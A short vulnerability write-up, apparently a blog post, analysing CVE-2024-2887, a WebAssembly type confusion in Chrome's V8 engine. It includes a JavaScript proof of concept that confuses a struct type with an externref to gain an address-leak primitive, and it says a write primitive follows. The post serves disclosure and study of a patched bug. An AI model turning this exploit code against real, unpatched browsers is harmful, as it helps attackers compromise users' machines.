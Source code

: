 author: [@buptsb](https://x.com/buptsb)
2024-04-08 16:14:00
https://x.com/buptsb/status/1777248693273731308

_This PoC is the FIRST public disclosure for this vulnerability._

# Info
https://chromereleases.googleblog.com/2024/03/stable-channel-update-for-desktop_26.html
[N/A][330588502] High CVE-2024-2887: Type Confusion in WebAssembly. Reported by Manfred Paul, via Pwn2Own 2024 on 2024-03-21

https://chromium-review.googlesource.com/q/bug:330575498
https://chromium-review.googlesource.com/c/v8/v8/+/5378419

# Analysis
Enum type `HeapType::Representation` start from `kV8MaxWasmTypes`:

Heaptypes below `kV8MaxWasmTypes` is “user-defined” types(for GC extension?)

We could create a StructType, which index is above `kV8MaxWasmTypes`, same with `kExtern`,
so this struct type could be confused with a js value whose type is ExternRef, 
and the wasm decoder type checker would not complain.
![image](https://github.com/buptsb/blog/assets/666724/799d5197-299e-470a-ab63-fc7794e4b02c)

# PoC
Change `kV8MaxWasmTypes` from 1M->1K for debugging speedup...
![image](https://github.com/buptsb/blog/assets/666724/ff409ad8-3992-42cf-a755-c6192571b51a)

```js
const prefix = "...";
d8.file.execute(`${prefix}/test/mjsunit/wasm/wasm-module-builder.js`);

const builder = new WasmModuleBuilder();

// fill up user defined types in a rec group, so that the total ##type groups## is below kV8MaxWasmTypes
builder.startRecGroup();
for (let i = 0; i < 1000; i++) {
  builder.addType(kSig_i_iii);
}
builder.endRecGroup();

for (let i = 0; i <= 5; i++) {
  builder.addStruct([makeField(kWasmI32, true)]);
}
// tStruct is 1006, same with kWasmExternRef
let tStruct = builder.addStruct([
  makeField(kWasmI32, true),
]);

// create function type has kWasmExternRef as input, ret addr
let tFunc = builder.addType(makeSig([kWasmExternRef], [kWasmI32]));

builder.addFunction('main', tFunc).addBody([
  kExprLocalGet, 0,
  // use `wasmSignedLeb` to wrap a value large than 0xFF
  kGCPrefix, kExprStructGet, ...wasmSignedLeb(tStruct), 0,
]).exportFunc();

const instance = builder.instantiate();

let sb = {foo:42};
%DebugPrint(sb);
%DebugPrint(instance.exports.main(sb));

%SystemBreak();
```

Now we have `addrof`, we could trigger a write using struct set.

![image](https://github.com/buptsb/blog/assets/666724/91ae221d-833e-45a8-b5c6-1e973f58564b)

<!-- ##{"timestamp":1712564040}## -->